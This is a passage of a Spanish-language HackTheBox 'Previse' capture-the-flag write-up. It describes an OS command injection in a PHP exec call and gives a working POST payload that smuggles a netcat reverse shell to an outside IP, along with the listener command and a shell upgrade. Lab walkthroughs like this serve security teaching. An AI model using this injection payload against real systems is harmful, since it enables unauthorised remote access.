 Vemos una llamada a un script Python de nombre **`log_process.py`** mediante la función **`exec`** de PHP, que recibe un argumento mediante POST.
Sin embargo no hay ningún tipo de validación ni sanitización respecto a qué puede contener dicho argumento, por lo que el código es vulnerable a [OS command injection](https://portswigger.net/web-security/os-command-injection)

Capturando con **`BurpSuite`** la petición tras darle al boton **SUBMIT** vemos que está formada por el campo con nombre **`delim`** y su valor.

![BurpSuite](/assets/images/hackthebox/previse/burp6.png)

Volvamos a usar **`BurpSuite`** para lograr inyectar la shell reversa usando el delimitador **`comma`** mediante el método POST.
Antes de enviarla me pongo a la escucha por el puerto **9999** con netcat (es el que yo uso habitualmente).

```
delim=comma%26nc+-e+/bin/bash+10.10.14.253+9999
```

```console
p3ntest1ng:~$ nc -nlvp 9999
```

Vamos a mejorar un poco la shell para mayor comodidad, escribiendo lo siguiente:

```console
p3ntest1ng:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![Shell](/assets/images/hackthebox/previse/shell.png)
